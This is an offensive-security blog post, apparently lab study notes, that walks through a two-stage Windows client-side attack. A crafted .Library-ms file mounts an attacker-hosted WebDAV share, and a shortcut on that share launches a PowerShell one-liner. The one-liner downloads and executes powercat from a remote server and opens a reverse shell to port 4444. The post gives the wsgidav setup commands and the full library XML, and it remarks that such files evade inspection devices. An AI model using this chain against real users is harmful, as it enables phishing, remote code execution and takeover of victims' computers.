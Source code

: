 ```yaml
---
layout: post
title: Windows Library Files
titledate: 09/01/23
tags: ["infosec","offsec"]
---
```


# Windows Library Files

First we create a 2 stage client side attack

Windows library file connecting to a _WebDAV_

When the victim receives a  _.Library-ms_ file and double clicks it the share will be mounted and appear as a regular directory

Inside we can put a .lnk  shortcut that  when clicked executes a Powershell reverse shell

<h3>Note most inspection devices may filter or catch malicious lnk files, but lib-ms files can go unnoticed</h3>

First we setup a WebDAV share

    $ pip3 install wsgidav
    $ mkdir /home/kali/webdav
    $ touch /home/kali/webdav/test.txt
    $/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/

Next we connect to our windows computer and create a _config.Library-ms_ file

<h4>craft Library-ms</h4>
```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
    </libraryDescription>
```

Now we add 2 tags inside the Library tag
```xml
    <name>@windows.storage.dll,-34582</name>
    <version>6</version>    
```

isLibraryPinned pins the library to the nav panel in windows explorer
```xml
    <isLibraryPinned>true</isLibraryPinned>
    <iconReference>imageres.dll,-1003</iconReference>
'
    <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
    </templateInfo>
```
WebDAV share info
```xml
    <searchConnectorDescriptionList>
    <searchConnectorDescription>
    <isDefaultSaveLocation>true</isDefaultSaveLocation>
    <isSupported>false</isSupported>
    <simpleLocation>
    <url>http://192.168.119.2</url>
    </simpleLocation>
    </searchConnectorDescription>
    </searchConnectorDescriptionList>
```
final WebDAV
```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
    <name>@windows.storage.dll,-34582</name>
    <version>6</version>
    <isLibraryPinned>true</isLibraryPinned>
    <iconReference>imageres.dll,-1003</iconReference>
    <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
    </templateInfo>
    <searchConnectorDescriptionList>
    <searchConnectorDescription>
    <isDefaultSaveLocation>true</isDefaultSaveLocation>
    <isSupported>false</isSupported>
    <simpleLocation>
    <url>http://192.168.119.2</url>
    </simpleLocation>
    </searchConnectorDescription>
    </searchConnectorDescriptionList>
    </libraryDescription>
```
<h4>execution</h4>

Now when we execute our lib-ms file we see our created test.txt file mounted in windows explorer

<h3>Note: to avoid issues with this attack, reset the file to final WebDAV</h3>

### Reverse Shell

Next we create a shortcut on the Desktop for the user and point it to a powershell reverse shell

    powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
    powercat -c 192.168.119.3 -p 4444 -e powershell"

Now with our webDAV server running, our python server hosting powercat and a netcat listener listening ^^:> our webDAV share will be mounted and a user can click our shortcut to retrieve the powercat script to enable our reverse shell to connect
